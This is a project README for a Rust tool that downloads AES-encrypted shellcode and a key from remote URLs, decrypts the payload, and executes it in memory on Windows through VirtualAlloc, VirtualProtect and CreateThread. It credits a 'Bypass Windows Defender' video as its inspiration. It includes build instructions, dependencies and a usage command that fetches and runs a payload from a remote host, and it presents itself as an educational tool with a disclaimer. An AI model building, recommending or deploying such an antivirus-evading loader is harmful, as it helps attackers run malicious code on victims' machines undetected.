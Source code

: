 # AES-256-CBC Shellcode Decryptor and Executor in Rust

This Rust application fetches encrypted shellcode and an encryption key from provided URLs, decrypts the shellcode using AES-256-CBC, and executes it in memory on Windows systems. It utilizes PBKDF2-inspired concepts and Windows API calls for memory allocation and execution. This project was inspired by foundational knowledge from *Gemini Cyber Security’s* video *"Getting Started with Rust - Bypass Windows Defender"*.

> **Note:** This tool is intended for educational and security research purposes only. Use responsibly and in compliance with applicable laws.

## Features
- **AES-256-CBC Decryption**: Decrypts shellcode using the AES-256 algorithm in CBC mode.
- **Remote File Fetching**: Retrieves encrypted shellcode and keys from HTTP URLs using `reqwest`.
- **In-Memory Execution**: Allocates memory and executes decrypted shellcode via Windows API calls (`VirtualAlloc`, `VirtualProtect`, `CreateThread`).
- **Zero-Initialized IV**: Uses a static IV for simplicity (not recommended for production use).

## Prerequisites
### 1. Rust Installation
Ensure Rust is installed. If needed, install it via Rustup:

```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### 2. Windows OS
This project utilizes Windows-specific APIs (`windows-sys`) and is not compatible with other operating systems.

### 3. Internet Access
Required to fetch encrypted shellcode and key from provided URLs.

## Building the Project
### 1. Clone the Repository
```sh
git clone <repository_url>
cd <repository_name>
```

### 2. Install Dependencies
Ensure your `Cargo.toml` includes the following dependencies:

```toml
[dependencies]
aes = "0.8"
block-modes = "0.8"
pbkdf2 = "0.12"
sha2 = "0.10"
hex = "0.4"
hmac = "0.12"
reqwest = { version = "0.11", features = ["blocking"] }
windows-sys = { version = "0.52", features = ["Win32_Foundation", "Win32_System_Memory", "Win32_System_Threading"] }
```

Then, build the project in release mode:

```sh
cargo build --release
```

The compiled binary will be located in the `target/release` directory.

## Usage
Run the application with the following command, providing URLs to the encrypted shellcode and the encryption key:

```sh
./target/release/rust -exec <shellcode_url> <key_url>
```

### Example:
```sh
./target/release/rust -exec http://example.com/encrypted_shellcode http://example.com/key
```

This will:
1. Fetch the encrypted shellcode and key from the specified URLs.
2. Decrypt the shellcode using AES-256-CBC with a zero-initialized IV.
3. Allocate executable memory, copy the decrypted shellcode, and execute it as a new thread.

If successful, the program will output:
```
Decryption and execution succeeded.
```

## Security Considerations
- **Static IV**: The IV is set to zero, which compromises security by making the encryption predictable. For real-world use, a cryptographically secure random IV should be used.
- **Key Management**: The key is fetched remotely but not validated. Ensure the key source is trusted and secure.
- **Shellcode Execution**: Executing arbitrary code in memory can be dangerous and should only be done in controlled environments.
- **Error Handling**: Basic error reporting is implemented, but robust error handling should be added for production use.

## Credits
This project was inspired by *Gemini Cyber Security* and their video *"Getting Started with Rust - Bypass Windows Defender"*. Special thanks to them for their educational content that helped guide this development.

## License
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

## Disclaimer
This tool is for educational and research purposes only. The author is not responsible for any misuse or damage caused by this software. Use it at your own risk and ensure compliance with all relevant laws and regulations.
